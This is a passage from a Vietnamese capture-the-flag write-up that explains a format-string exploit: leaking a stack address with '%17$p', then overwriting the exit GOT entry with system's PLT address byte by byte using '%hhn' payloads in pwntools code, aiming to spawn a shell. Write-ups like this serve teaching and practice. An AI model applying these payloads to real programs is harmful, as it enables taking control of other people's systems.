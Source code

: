 tới đây rồi ta sẽ có rất nhiều hướng khai thác khác nhau, mình đã thử qua nhiều cách rồi và ```mình quyết định làm theo cách của author ``` ( **vì những cách khác ko ra :(**   )

**Ý tưởng:**

- **nhìn tổng quan ida thì ta đã thấy có cả system lẫn /bin/sh**, nên tại đây ta sẽ kết hợp giữ **got** và **plt** để giải quyết bài này
- exit có chứa /bin/sh nếu tại đây biến thành system thì ta có được shell rồi, nên ý tưởng đầu tiên ta cần hướng tới là **ow got.exit thành plt.system**
- sau khi ow got.exit thành system xong ta cần trỏ vào hàm exit_f , **tại đây ta ko thể dùng ret2win được vì ko có lỗi BOF**, hmm nên ta nảy số ngay qua cách **ow rip thành địa chỉ của hàm exit_f**
- **để lấy được địa chỉ rip** thì ta cần leak được stack bằng cách khai thác lỗi fmt 

**Tóm tắt**

```( leak exe -> ret2win fmt -> leak stack -> ow exit.got() = system.plt() -> ow ret = exit_f )```

oke bây giờ ta leak stack và rip trước vì nó đơn giản 

```python=

##################################
### Stage 3:leak stack and ret ###
##################################

p.sendlineafter(b'phai lam gi day?????\n', b'%17$p') 
stack_leak = int(p.recvline()[:-1], 16)
ret = stack_leak - 0x100
log.info("stack leak: " + hex(stack_leak))
log.info("ret: " + hex(ret))

```

tới đây ta đây ta **ow got.exit thành plt system**

```lý do tại sao dùng plt mà ko phải got cho system:```


![image](https://github.com/gookoosss/CTF.-/assets/128712571/6a8bcf96-ff6d-48dc-a1f2-b5b7d3f0892d)


**hiểu hiểu đơn giản được là để thực thi được system thì cần dùng plt, got chỉ là địa chỉ chứa plt , còn muốn thực thi được thì phải dùng plt** 


tại đây ta sẽ lặp 6 lần từng byte 1 để debug cho dễ

```python
#############################################
### Stage 4: ow exit.got() = system.plt() ###
#############################################

system = exe.plt['system'] #plt.system
exit = exe.got['exit'] #got.ext

log.info("system: " + hex(system))

# in từ từ 1byte

for i in range(0,6):
    payload = f"%{system & 0xff}c%8$hhn".encode().ljust(16, b"\0")
    payload += p64(exit) 
    p.sendlineafter(b'phai lam gi day?????\n', payload )
    system = system >> 8
    exit += 1
    log.info("system: " + hex(system))

```